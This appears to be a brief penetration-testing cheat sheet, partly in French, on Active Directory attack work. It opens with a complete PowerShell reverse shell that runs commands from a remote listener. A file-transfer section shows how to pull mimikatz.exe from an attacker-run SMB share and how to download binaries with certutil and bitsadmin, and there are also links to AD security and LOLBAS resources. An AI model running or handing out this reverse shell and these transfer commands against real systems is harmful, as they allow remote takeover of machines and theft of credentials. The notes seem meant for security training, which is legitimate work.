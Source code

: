 # Reverse Shell

```$client = New-Object System.Net.Sockets.TCPClient("$IP$",$PORT$);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

# Formation AD Security 101

* https://github.com/cfalta/adsec

# Useful links 

* https://beta.hackndo.com/
* https://lolbas-project.github.io/

# Tools 

* https://github.com/microsoft/AttackSurfaceAnalyzer

# File Transfer 

## SMB

* sudo python3 smbserver.py ROPNOP /mnt/toto
* net view \\10.9.68.115
* COPY \\10.9.68.115\ROPNOP\mimikatz.exe .

## HTTP

* certutil.exe -urlcache -split -f "https://ip/binaire" xxx.exe
* bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip

